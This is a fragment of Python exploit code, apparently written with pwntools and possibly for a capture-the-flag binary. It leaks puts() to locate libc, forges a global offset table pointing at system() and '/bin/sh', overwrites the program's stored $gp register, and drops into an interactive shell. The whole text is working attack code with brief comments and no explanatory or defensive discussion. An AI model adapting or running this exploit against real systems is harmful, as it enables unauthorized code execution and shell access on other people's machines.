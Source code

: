 ```python
puts_addr = int.from_bytes(p.recvline()[5:8], 'little')
print(f"puts() = {hex(puts_addr)}")
libc.address = puts_addr - libc.symbols['puts']


### GP OVERWRITE 2 ###
fake_got2 = flat(
    # 0xf900c0
    p32(next(libc.search(b'/bin/sh\0')) - 0x118c), p32(0), p32(0), p32(0), # "/bin/sh"
    
    # 0xf900d0
    p32(0), p32(0), p32(0), p32(0),
    
    # 0xf900e0
    p32(0), p32(main_addr), p32(0), p32(0), # address for main() so exit() jumps back into main()
    
    # 0xf900f0
    p32(0), p32(0), p32(0), p32(0),

    # 0xf90100
    p32(0), p32(0), p32(0), p32(libc.sym['system']), # system()
)
p.sendline(fake_got2)                                   # name (fake GOT in global)
p.sendline(b'-12')                                      # offset to stored $gp
p.sendline(b'32912')                                    # least significant 2 bytes of new $gp

p.interactive()

```
